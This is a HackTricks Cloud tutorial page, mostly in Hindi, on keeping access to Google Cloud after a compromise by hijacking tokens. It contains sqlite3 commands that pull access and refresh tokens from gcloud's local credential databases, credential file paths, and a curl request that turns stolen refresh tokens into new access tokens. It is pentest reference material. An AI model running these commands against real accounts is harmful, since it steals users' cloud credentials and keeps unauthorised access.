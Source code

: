# GCP - गैर-सेवा स्थिरता

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें द्वारा PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>

ये उपयोगी तकनीकें हैं, जब आपने किसी GCP क्रेडेंशियल या GCP वातावरण में चल रही किसी मशीन को किसी प्रकार से कंप्रोमाइज़ कर लिया है।

## टोकन हाइजैकिंग

### प्रमाणीकृत उपयोगकर्ता टोकन

एक उपयोगकर्ता के **वर्तमान टोकन** प्राप्त करने के लिए आप निम्नलिखित को चला सकते हैं: 

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/access_tokens.db "select access_token from access_tokens where account_id='<email>';"
```
{% endcode %}

इस पृष्ठ में देखें कि **gcloud का उपयोग करके इस टोकन का सीधा उपयोग कैसे करें**:

{% embed url="https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf#id-6440-1" %}

**नया एक्सेस टोकन उत्पन्न करने** के लिए विवरण प्राप्त करने के लिए निम्नलिखित को चलाएं:

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/credentials.db "select value from credentials where account_id='<email>';"
```
यह भी संभव है कि **`$HOME/.config/gcloud/application_default_credentials.json`** और **`$HOME/.config/gcloud/legacy_credentials/*/adc.json`** में रिफ्रेश टोकन्स मिलें।

**रिफ्रेश टोकन**, क्लाइंट आईडी, और क्लाइंट सीक्रेट के साथ एक नया रिफ्रेश एक्सेस टोकन प्राप्त करने के लिए निम्नलिखित को चलाएं:
```bash
curl -s --data client_id=<client_id> --data client_secret=<client_secret> --data grant_type=refresh_token --data refresh_token=<refresh_token> --data scope="https://www.googleapis.com/auth/cloud-platform https://www.googleapis.com/auth/accounts.reauth" https://www.googleapis.com/oauth2/v4/token
```
{% endcode %}

रिफ्रेश टोकन की वैधता को **व्यवस्थापक** > **सुरक्षा** > **Google Cloud सत्र नियंत्रण** में प्रबंधित किया जा सकता है, और डिफ़ॉल्ट रूप से यह 16 घंटे के लिए सेट किया गया है हालांकि यह कभी भी समाप्त नहीं होने के लिए सेट किया जा सकता है:

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

### प्रमाणीकरण फ्लो

कुछ इस प्रकार के उपयोग करने पर प्रमाणीकरण फ्लो जैसे `gcloud auth login` का उपयोग करते समय ब्राउज़र में एक प्रॉम्प्ट खोलेगा और सभी स्कोप्स को स्वीकार करने के बाद ब्राउज़र एक अनुरोध भेजेगा जैसे इस टूल द्वारा खोले गए http पोर्ट को:
```
/?state=EN5AK1GxwrEKgKog9ANBm0qDwWByYO&code=4/0AeaYSHCllDzZCAt2IlNWjMHqr4XKOuNuhOL-TM541gv-F6WOUsbwXiUgMYvo4Fg0NGzV9A&scope=email%20openid%20https://www.googleapis.com/auth/userinfo.email%20https://www.googleapis.com/auth/cloud-platform%20https://www.googleapis.com/auth/appengine.admin%20https://www.googleapis.com/auth/sqlservice.login%20https://www.googleapis.com/auth/compute%20https://www.googleapis.com/auth/accounts.reauth&authuser=0&prompt=consent HTTP/1.1
```
तो, gcloud स्थिति और कोड का उपयोग करेगा जिसमें कुछ hardcoded `client_id` (`32555940559.apps.googleusercontent.com`) और **`client_secret`** (`ZmssLNjJy2998hD4CTg2ejr2`) होगा ताकि **अंतिम रिफ्रेश टोकन डेटा** प्राप्त कर सके।

{% hint style="danger" %}
ध्यान दें कि localhost के साथ संचार HTTP में है, इसलिए डेटा को अंतिम रिफ्रेश टोकन प्राप्त करने के लिए डेटा को अंतर्दृष्टि से पकड़ना संभव है, हालांकि यह डेटा केवल 1 बार मान्य है, इसलिए यह अनर्थक होगा, बेहतर है केवल फ़ाइल से रिफ्रेश टोकन पढ़ना।
{% endhint %}

### OAuth स्कोप

सभी OAuth स्कोप प्राप्त करने के लिए निम्नलिखित को निष्पादित करें:

{% code overflow="wrap" %}
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-A/\-\._]*' | sort -u
```
{% endcode %}

### सेवा खाते

जैसे ही आप प्राइवेट की फ़ाइल को कंप्रोमाइज़ कर लेते हैं, आप उसे जितनी चाहें तक एक्सेस कर सकते हैं।\
हालांकि, अगर आप किसी सेवा खाते का OAuth टोकन चुरा लेते हैं तो यह और भी दिलचस्प हो सकता है, क्योंकि, डिफ़ॉल्ट रूप से ये टोकन एक घंटे के लिए ही उपयोगी होते हैं, लेकिन अगर पीड़ित प्राइवेट एपीआई कुंजी को हटा देता है, तो OAuh टोकन अब तक वैध रहेगा जब तक यह समाप्त नहीं हो जाता।

### मेटाडेटा

स्पष्ट है, जब तक आप GCP परिवेश में चल रही मशीन में हैं तब आप मेटाडेटा एंडपॉइंट से सेवा खाते तक पहुंच सकते हैं (ध्यान दें कि इस एंडपॉइंट में आप एक्सेस कर सकते हैं वहाँ के Oauth टोकन आम तौर पर स्कोप्स द्वारा प्रतिबंधित होते हैं)।

### संशोधन

इन तकनीकों के लिए कुछ संशोधन [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2) में विवरणित हैं।

## संदर्भ

* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1)
* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
